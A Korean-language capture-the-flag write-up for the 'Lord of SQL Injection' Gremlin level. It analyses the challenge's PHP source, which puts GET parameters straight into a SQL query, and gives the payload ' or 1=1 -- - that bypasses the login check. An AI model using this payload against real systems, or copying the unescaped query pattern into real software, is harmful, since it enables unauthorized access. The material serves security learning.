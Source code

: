 # Lord of SQL Injection No.1 - Gremlin
## 문제 출제 의도
1. 가장 기초적인 SQL Injection의 이해여부, 제어가능 여부를 확인.
## 소스 코드 분석
+ 소스코드  
Gremlin의 소스코드는 다음과 같다.
    ~~~
    <?php  
        include "./config.php";  
        login_chk();  
        dbconnect();  
        if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");// do not try to attack another table, database!  
        if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
        $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";  
        echo "<hr>query : <strong>{$query}</strong><hr><br>";
        $result = @mysql_fetch_array(mysql_query($query));
        if($result['id']) solve("gremlin");
        highlight_file(__FILE__);
    ?>
    ~~~
+ 소스 코드 분석  <hr>
    - < ?php 로 시작하고, 동시에 ?> 로 끝나는 것을 보아 php라는 것을 알 수 있다. 
    - include "./congig.php";  
      congig.php라는 분리된 파일을 외부에서 불러와 적용시킨다.
      이후 정의 한적 없는 사용자 정의 함수가 나오면 congig.php에 선언되어 있다고 추정할 수 있다.
      * **include**
      1. php의 include를 모른다면 다음 문서를 참고하자.
      2. <a href = "http://php.net/manual/kr/function.include.php">PHP: include - Manual</a>
    - login_chk();라는 함수는 로그인상태를 확인하는 함수라고 추정 가능하다.  
    - dbconnect();라는 함수는 데이터베이스와 연동하는 함수라고 추정 가능하다.  
    - if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!    
    prob, hyphon(-), period(.), parenthesis((,))등이 Get방식으로 입력받은 id에 있으면 No Hack이 출력되는 것을 알 수 있다.
    - if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
    prob, hyphon(-), period(.), parenthesis((,))등이 Get방식으로 입력받은 비밀번호에 있으면 No Hack이 출력되는 것을 알 수 있다.


    - **preg_match**
    1. php의 preg_match 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.
    2. <a href ="http://php.net/manual/kr/function.preg-match.php">PHP: preg_match - Manual</a>
    ~~~
    int preg_match ( string $pattern , string $subject [, array &$matches [, int $flags [, int $offset ]]] )
    ~~~  
    - pattern = 찾는값
    - subject = 값을 찾을 문자열
    - array &$matches = 존재할 경우 매치되는 문자열이 해당 배열의 0번지에 할당됨.
    - flag = 추가 옵션
    - offset = 처음 검색을 시작할 다른 위치를 지정할 수 있다.(바이트 단위)
    - preg_match 함수는 반환값으로 0 또는 1을 반환하는데 매치된 값이 있다면 1을 없다면 0 을 반환한다.
    - 따라서 /prob|_|\.|\(\)와 $_GET['id']또는 $_GET['ps']즉 입력 받은 값과 비교한다. 
    - 따라서 입력받은 아이디와 비밀번호에 prob, _ , . , ( , )중 하나라도 들어있으면 No Hack ~_~이 뜨고 문제 풀이에 실패한다.  
    ~~~
    $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));
    if($result['id']) solve("gremlin");
    ~~~
    - $query = "select id from prob_gremlin;  
    데이터 베이스의 테이블중 prob_pro_gremlin 이라는 테이블의 데이터중 id에 해당하는 부분만 선택한다. 

    - where id='{$_GET[id]}' and pw='{$_GET[pw]}'"  
    id와 password가 입력값인 줄을 선택한다.
## 문제 해결
+ 풀이 방법 <hr>
    <p style ="font-size:20px;">WHERE 조건절 무력화</p>

    Get 방식으로 id,password를 받기 때문에 URL 다음에 다음과 같이 쿼리 스트링을 추가하면 된다. 
    ~~~
    http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=' or 1=1 -- -
    ~~~  

    - 아이디를 비워두면 어떤 유효값도 where에 걸리지 않는다 따라서 그 뒤에 or 1=1 을 넣어 항상 참이 되게 만든다
    - 이후 password를 무시하기 위해 나머지를 주석처리 해준다. -- -
    - 따라서 결국 다음과 같은 쿼리문이 전송되어지는 것이다.
    ~~~
    select id from prob_gremlin where id='' or 1=1 -- -' and pw=''
    ~~~ 